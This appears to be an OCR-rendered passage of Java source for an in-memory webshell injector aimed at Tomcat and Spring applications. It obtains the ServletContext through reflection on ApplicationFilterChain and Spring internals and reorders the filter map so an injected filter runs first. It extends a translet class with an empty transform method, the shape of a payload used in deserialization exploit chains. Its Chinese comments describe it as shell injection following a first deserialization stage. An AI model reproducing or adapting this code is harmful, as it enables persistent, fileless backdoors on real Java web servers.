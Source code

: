 ```java
                                tmpFilterMaps[index++] = filterMaps[i];
                            }
                        }
                        for (int i = 0; i < filterMaps.length; i++) {
                            filterMaps[i] = tmpFilterMaps[i];
                        }
                    }
                }

            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static ServletContext getServletContext()
            throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {}
        }
        if (servletRequest != null)
            return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {}
        return null;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

```